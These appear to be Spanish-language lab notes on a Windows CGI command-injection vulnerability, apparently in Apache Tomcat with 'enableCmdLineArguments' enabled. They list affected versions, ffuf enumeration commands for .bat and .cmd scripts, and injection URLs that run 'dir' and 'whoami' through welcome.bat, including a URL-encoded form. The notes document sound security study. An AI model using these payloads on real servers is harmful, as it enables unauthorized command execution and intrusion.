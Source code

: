- Posee una vulnerabilidad en los sistemas Windows que tengan el parametro "enableCmdLineArguments" activado.
- Las versiones afectadas son:
      - 9.0.0.M1 a 9.0.17
      - 8.5.0 a 8.5.39
      - 7.0.0 a 7.0.93


### Enum
##### Buscar cmds:
    ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
##### Bucar bachs:

    ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat

### EXPLOITATION
##### Agregamos como parámetro el comando que queremos correr:
    http://10.129.204.227:8080/cgi/welcome.bat?&dir


si el comando es complicado, deberemos encodear en URL.
##### Ej:
para whoami:

            http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
Encodeado:

            http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
            

